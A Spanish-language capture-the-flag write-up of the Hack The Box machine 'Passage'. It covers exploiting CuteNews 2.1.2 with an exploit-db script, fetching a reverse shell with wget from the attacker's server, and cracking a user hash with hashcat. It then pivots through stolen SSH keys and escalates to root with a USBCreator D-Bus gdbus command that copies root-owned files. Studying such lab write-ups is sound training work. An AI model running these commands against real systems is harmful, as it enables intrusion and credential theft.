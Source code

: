```yaml
---
title: "HTB - Passage"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/passage.png"
categories:
  - WriteUp
tags:
  - HTB
  - Maquina
htb:
  status: true
  os: Linux
  developer: ChefByzen
  level: Medio
  date: 05 Septiembre 2020
  point: 30
---
```


## Enumeración
Al usar nmap utilizando nmap -sCV -A 10.10.10.206 solo encontramos que está abierto el 80 (web).

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-17 23:49 -03
Nmap scan report for passage.htb (10.10.10.206)
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
| 256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
|_ 256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News

No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


TRACEROUTE (using port 993/tcp)
HOP RTT ADDRESS
1 228.04 ms 10.10.14.1
2 228.12 ms passage.htb (10.10.10.206)

OS and Service detection performed. Please report any incorrect
results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.98 seconds
```

Nos damos cuenta que solo está abierto el puerto 80 por lo que empezamos a revisar la pagina, y nos percatamos que es un CuteNews con versión 2.1.2, el cual es gestor de noticias/sistema de publicación blog, creado por el equipo de desarrolladores de CutePHP.

Esta versión en particular posee una exploid escrito en python que permite obtener privilegios básicos.

## 1° Shell

Ejecutamos nuestro script encontrado en exploid-db y obtenermos

```
[->] Usage python3 expoit.py
Enter the URL> http://10.10.10.206
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================
=============================
Registering a users
=============================
[+] Registration successful with username: hKjUyJw643 andpassword: hKjUyJw643
=======================================================
Sending Payload
=======================================================
signature_key: 988ee4f0201d4c681811c25628f9aeec-hKjUyJw643
signature_dsi: 73fcc7f25ad2b8bcdd2150941bfea878
logged in user: hKjUyJw643
============================
Dropping to a SHELL
============================
command > whoami
www-data
```

En caso de que querer una shell con opciones, simplemente subimos una shell-reverse para ejecutarla desde el navegador. Para ello ejecutamos python -m SimpleHTTPServer en nuestra terminal y desde la maquina victima bajamos el archivo de la shell revers con wget
<URL/ARCHIVO.php>, como esta segunda terminal es mejor que la anterior pero igual básica se puede mejorar con el comando python -c "import pty;pty.spawn('/bin/bash')" luego apretamos Ctrl+Z, que nos devuelve a nuestra terminal, escribimos stty raw -echo con la terminal no trabajando bien escribimos fg y apretamos enter (esto último lo hacemos dos veces) para volver a la terminal de
la máquina victima pero mejorada, para finalizar escribimos export TERM=xterm

## Shell Usuario 1

Una vez obtenida la shell inicial, empezamos a buscar información y nos encontramos que existen dos usuarion paul y nadav

Como no se puede acceder a ni una carpeta de usuario empezamos a revisar los codigos fuentes de CuteNews empezando a leer los archivos nos percatamos que en /var/www/html/CuteNews/cdata/users/line hay datos cifrado en base64, al revisar cada dato nos da
la pass de paul y nadav en sha256.

Usando hashcat y el diccionario wordlist obtenemos el pass de paul con el script **hashcat -m 1400 -a 0 paul.hash /usr/share/wordlists/rockyou.txt** obtenemos que el password de paul es atlanta1.

Solo nos queda obtener sus permisos con su paul y escribir el pass.

## Shell Usuario 2

Con el usuario paul, revisamos sus archivos y nos damos cuenta que tiene el archivo user.txt con la flag de usuario.

Además en la carpeta .ssh está los id_rsa que podemos utilizar para abrir un ssh desde nuestra terminal al usuario paul, para ello descargamos el id_rsa a nuestro equipo y le damos privilegio 600 para poder ejecutarlos.

Seguimos revisando la carpeta .ssh y nos percatamos que pual se puede conectar con shh a nadav por lo que ejecutamos ssh nadav@localhost y obtenemos la shell de nadav.

```
paul@passage:~$ ssh nadav@localhost
Last login: Sun Jan 17 17:25:13 2021 from 10.10.14.187
nadav@passage:~$
```

De igual manera que con el id_rsa de paul se puede obtener el ssh de nadav y poder conectarnos a futuro con este usuario.

## Root Shell

Empezamos a enumerar puertos y procesos dentro de la maquina, si bien hay un puerto que esta corriendo en localhost (puerto 631) esto es un distractor, por lo que nos quedamos con los procesos que está corriendo y nos llama la atención un proceso que se ejecuta en python con privilegios de root.

```
root 3313 0.0 0.4 235544 19956 ? Sl 17:45
0:00 /usr/bin/python3 /usr/share/usb-creator/usb-creator-helper
```

Al revisar este archivo podemos darnos cuenta que tiene privilegios de root pero puede ser ejecutados por cualquier usuario.

Leyendo en https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-inubuntu-desktop/ nos explica que se puede ejecutar una escalada de privilegio con el comando por lo que solo debemos escribir gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image y pasar root/root.txt a
home/nadav/root.txt de la siguiente manera gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --
method com.ubuntu.USBCreator.Image /root/root.txt /home/nadav/root.txt true

Para finalizar solo debemos leer el archivo y obtener la flag, si se quiere obtener la shell en ves de obtener el archivo root.txt hay que pasar el archivo root/.ssh/id_rsa y realizar los mismo pasos que con los id_rsa anteriores.

![Racso](https://www.hackthebox.com/badge/image/159593)
